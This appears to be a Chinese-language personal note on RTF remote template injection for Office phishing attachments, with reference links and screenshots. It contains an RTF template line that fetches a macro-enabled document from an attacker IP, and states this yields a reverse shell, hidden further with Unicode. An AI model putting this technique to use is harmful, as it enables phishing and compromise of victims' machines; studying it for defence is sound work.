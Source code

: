 ```yaml
---
category:
  - 网络安全
  - 钓鱼
tags:
  - 钓鱼附件
  - Office
  - RTF
  - 模板注入
---
```


# RTF注入Office模板

> [Office RTF远程模板注入 - Bl0od - 博客园 (cnblogs.com)](https://www.cnblogs.com/zUotTe0/p/15659420.html)
>
> [黑客越来越多地使用RTF模板注入技术进行网络钓鱼攻击 - 哈客部落 (hake.cc)](https://www.hake.cc/page/article/611.html)
>
> [【钓鱼从入门到放弃】-RTF文档 (atsud0.me)](https://atsud0.me/2022/01/【钓鱼从入门到放弃】-RTF文档/#CVE-2017-8570)
>
> [奇安信威胁情报中心 (qianxin.com)](https://ti.qianxin.com/blog/articles/Analysis-of-the-Donot-group's-attack-campaign-using-RTF-template-injection-against-the-neighbourhood/)
>
> ---
>
> [Decodificando ficheros RTF maliciosos (ciberseguridad.blog)](https://ciberseguridad.blog/decodificando-ficheros-rtf-maliciosos/)
>
> [Rich Text Format (RTF) Version 1.5 Specification (biblioscape.com)](https://www.biblioscape.com/rtf15_spec.htm)
>
> [RTF Template Injection: Phishing Attachment Techniques | Proofpoint US](https://www.proofpoint.com/us/blog/threat-insight/injection-new-black-novel-rtf-template-inject-technique-poised-widespread)
>
> ---
>
> [RTF sample which belongs to APT-C-35 group (only 4 detections in VT)](https://x.com/IntezerLabs/status/1389210529802170370?ref=ciberseguridad.blog)
>
> ---
>
> [富文本格式 (RTF) 1.5 版规范 --- Rich Text Format (RTF) Version 1.5 Specification (biblioscape.com)](https://www.biblioscape.com/rtf15_spec.htm)

RTF是富文本格式(Rich Text Format)又称多文本格式, 是由微软公司开发的跨平台文档格式

大多数的文字处理软件都能读取和保存RTF文档

RTF文档支持 `template` 参数, 可以指定目的模板路径来加载模板

![image-20240611163233113](http://cdn.ayusummer233.top/DailyNotes/202406121124421.png)

---

使用 Office Word 新建一个文档然后保存为 RTF 文档

![image-20240611111848392](http://cdn.ayusummer233.top/DailyNotes/202406121124431.png)

![image-20240611112041230](http://cdn.ayusummer233.top/DailyNotes/202406121124434.png)

使用文本编辑器打开此 RTF 文档

```
{\*\template http://100.1.1.131:8000/download/VBA_PowerShell.docm}
```

![image-20240611141220417](http://cdn.ayusummer233.top/DailyNotes/202406121124425.png)

![image-20240611151608170](http://cdn.ayusummer233.top/DailyNotes/202406121124391.png)

> 这样下载文件特别慢(

等待下载完执行即可达成反弹shell

![image-20240611151622885](http://cdn.ayusummer233.top/DailyNotes/202406121124429.png)

---

> [Office RTF远程模板注入 - Bl0od - 博客园 (cnblogs.com)](https://www.cnblogs.com/zUotTe0/p/15659420.html)
>
> [Rich Text Format (RTF) Version 1.5 Specification (biblioscape.com)](https://www.biblioscape.com/rtf15_spec.htm)

`*\template` 字段参数值可以为Unicode，可以更好隐藏自身

![image-20240612102526403](http://cdn.ayusummer233.top/DailyNotes/202406121124843.png)

![image-20240612112445656](http://cdn.ayusummer233.top/DailyNotes/202406121124781.png)

---

